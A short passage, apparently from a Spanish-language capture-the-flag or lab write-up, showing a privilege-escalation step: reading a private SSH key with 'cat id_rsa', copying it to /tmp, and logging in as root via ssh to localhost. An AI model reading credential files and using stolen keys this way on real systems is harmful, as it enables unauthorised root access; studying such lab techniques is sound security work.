 ```bash
cd .ssh
cat id_rsa
```

la copiamos y creamos un fichero id_rsa en /tmp

```bash
exit
cd /tmp
nano id_rsa

chmod 600 id_rsa
ssh root@localhost -i id_rsa
whoami
#Output 

root
```
